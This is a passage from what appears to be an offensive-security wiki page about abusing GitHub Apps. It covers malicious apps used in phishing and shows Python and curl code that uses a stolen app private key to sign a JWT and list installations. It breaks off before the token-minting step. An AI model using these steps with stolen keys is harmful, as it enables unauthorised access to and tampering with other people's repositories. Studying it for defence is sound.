 An attacker might create a **malicious Github Application** to access privileged data/actions of the users that accepts them probably as part of a phishing campaign.

Moreover, as explained in the basic information, **organizations can give/deny access to third party applications** to information/repos/actions related with the organisation.

#### Impersonate a GitHub App with its private key (JWT → installation access tokens)

If you obtain the private key (PEM) of a GitHub App, you can fully impersonate the app across all of its installations:

- Generate a short‑lived JWT signed with the private key
- Call the GitHub App REST API to enumerate installations
- Mint per‑installation access tokens and use them to list/clone/push to repositories granted to that installation

Requirements:
- GitHub App private key (PEM)
- GitHub App ID (numeric). GitHub requires iss to be the App ID

Create JWT (RS256):

```python
#!/usr/bin/env python3
import time, jwt

with open("priv.pem", "r") as f:
    signing_key = f.read()

APP_ID = "123456"  # GitHub App ID (numeric)

def gen_jwt():
    now = int(time.time())
    payload = {
        "iat": now - 60,
        "exp": now + 600 - 60,  # ≤10 minutes
        "iss": APP_ID,
    }
    return jwt.encode(payload, signing_key, algorithm="RS256")
```

List installations for the authenticated app:

```bash
JWT=$(python3 -c 'import time,jwt,sys;print(jwt.encode({"iat":int(time.time()-60),"exp":int(time.time())+540,"iss":sys.argv[1]}, open("priv.pem").read(), algorithm="RS256"))' 123456)

curl -sS -H "Authorization: Bearer $JWT" \
     -H "Accept: application/vnd.github+json" \
     -H "X-GitHub-Api-Version: 2022-11-28" \
     https://api.github.com/app/installations
```

Create an installation access token (valid ≤ 10 minutes):
